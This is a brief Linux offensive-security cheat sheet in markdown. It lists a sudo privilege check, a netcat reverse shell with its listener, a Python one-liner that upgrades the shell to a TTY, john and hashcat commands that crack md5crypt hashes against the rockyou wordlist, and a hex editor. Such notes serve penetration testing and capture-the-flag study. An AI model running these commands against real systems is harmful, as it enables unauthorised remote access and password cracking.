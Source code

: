 # Linux

- [Sudo](#sudo)
- [Reverse Shell](#reverse-shell)
- [Hash Bruteforce](#hash-bruteforce)

## Sudo
```
sudo -l
```

## Reverse Shell
### Client
```
nc ip 4444 -e /bin/bash
```
### Server
```
nc -lp 4444
```
### TTY Support
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Hash Bruteforce
### john
```
john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
### Hashcat
```
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

## Editor
### Hexa
```
hexedit
```
